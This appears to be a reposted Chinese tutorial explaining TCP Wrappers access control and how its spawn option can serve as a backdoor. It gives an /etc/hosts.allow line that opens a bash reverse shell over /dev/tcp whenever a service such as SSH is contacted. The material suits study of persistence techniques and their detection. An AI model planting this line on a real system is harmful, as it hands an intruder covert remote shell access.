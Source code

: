 # TCP Wrappers

> 原文：[https://www.zhihuifly.com/t/topic/3508](https://www.zhihuifly.com/t/topic/3508)

## TCP Wrappers

TCPWrappers是一个工作在第四层（传输层）的的安全工具，对有状态连接的特定服务进行安全检测并实现访问控制，凡是包含libwrap.so库文件的的程序就可以受TCPWrappers的安全控制。它的主要功能就是控制谁可以访问，常见的程序有rpcbind、vsftpd、sshd，telnet。

**工作原理**

TCP_Wrappers有一个TCP的守护进程叫做tcpd。以ssh为例，每当有ssh的连接请求时，tcpd即会截获请求，先读取系统管理员所设置的访问控制文件，符合要求，则会把这次连接原封不动的转给真正的ssh进程，由ssh完成后续工作；如果这次连接发起的ip不符合访问控制文件中的设置，则会中断连接请求，拒绝提供ssh服务。

**利用**

TCP_Wrappers的使用主要是依靠两个配置文件/etc/hosts.allow, /etc/hosts.deny，用于拒绝和接受。这里演示使用的是接受配置信息。之所以能够被用作后门是因为他存在一个参数是spawn （spawn启动一个外部程序完成执行的操作） 修改/etc/hosts.allow文件：

```
ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/127.0.0.1/6666 0>&1") & :allow 
```

![image](img/19d8825dce2e326695839b176cb1080f.png)

![image](img/667331e4250a634c5354159c60840074.png)

当使用ssh连接的时候，它开始匹配规则，然后利用spawn执行的nc反弹了一个shell。